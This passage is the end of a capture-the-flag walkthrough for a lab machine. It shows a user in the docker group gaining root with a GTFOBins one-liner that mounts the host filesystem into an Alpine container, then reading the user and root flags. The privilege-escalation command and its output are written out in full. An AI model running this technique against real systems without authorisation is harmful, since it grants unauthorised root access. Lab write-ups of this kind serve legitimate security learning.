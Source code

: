- I knew it! Having docker group is so weird, `/run/docket.sock` is our way to root. Check the docker image as well.

  ```
  anurodh@ubuntu:/home/apaar$ docker images
  REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
  alpine              latest              a24bb4013296        4 years ago         5.57MB
  hello-world         latest              bf756fb1ae65        5 years ago         13.3kB
  ```

- Now lastly, run a simple one-liner from GTFOBins and read both flags.

  ```
  anurodh@ubuntu:/home/apaar$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
  groups: cannot find name for group ID 11
  To run a command as administrator (user "root"), use "sudo <command>".
  See "man sudo_root" for details.
  
  root@c361c7967535:/# whoami
  root
  ```

- We already know where first one is. Second one is in root directory of course.

  ```
  root@c361c7967535:/home# cd apaar/
  root@c361c7967535:/home/apaar# cat local.txt
  {USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}

  root@c361c7967535:/# cd root
  root@c361c7967535:~# ls -la
  total 68
  drwx------  6 root root  4096 Oct  4  2020 .
  drwxr-xr-x 24 root root  4096 Oct  3  2020 ..
  -rw-------  1 root root     0 Oct  4  2020 .bash_history
  -rw-r--r--  1 root root  3106 Apr  9  2018 .bashrc
  drwx------  2 root root  4096 Oct  3  2020 .cache
  drwx------  3 root root  4096 Oct  3  2020 .gnupg
  -rw-------  1 root root   370 Oct  4  2020 .mysql_history
  -rw-r--r--  1 root root   148 Aug 17  2015 .profile
  -rw-r--r--  1 root root 12288 Oct  4  2020 .proof.txt.swp
  drwx------  2 root root  4096 Oct  3  2020 .ssh
  drwxr-xr-x  2 root root  4096 Oct  3  2020 .vim
  -rw-------  1 root root 11683 Oct  4  2020 .viminfo
  -rw-r--r--  1 root root   166 Oct  3  2020 .wget-hsts
  -rw-r--r--  1 root root  1385 Oct  4  2020 proof.txt
  root@c361c7967535:~# cat proof.txt 
  
  
                                          {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}
  
  
  Congratulations! You have successfully completed the challenge.
  
  
           ,-.-.     ,----.                                             _,.---._    .-._           ,----.  
  ,-..-.-./  \==\ ,-.--` , \   _.-.      _.-.             _,..---._   ,-.' , -  `. /==/ \  .-._ ,-.--` , \ 
  |, \=/\=|- |==||==|-  _.-` .-,.'|    .-,.'|           /==/,   -  \ /==/_,  ,  - \|==|, \/ /, /==|-  _.-` 
  |- |/ |/ , /==/|==|   `.-.|==|, |   |==|, |           |==|   _   _\==|   .=.     |==|-  \|  ||==|   `.-. 
   \, ,     _|==/==/_ ,    /|==|- |   |==|- |           |==|  .=.   |==|_ : ;=:  - |==| ,  | -/==/_ ,    / 
   | -  -  , |==|==|    .-' |==|, |   |==|, |           |==|,|   | -|==| , '='     |==| -   _ |==|    .-'  
  ```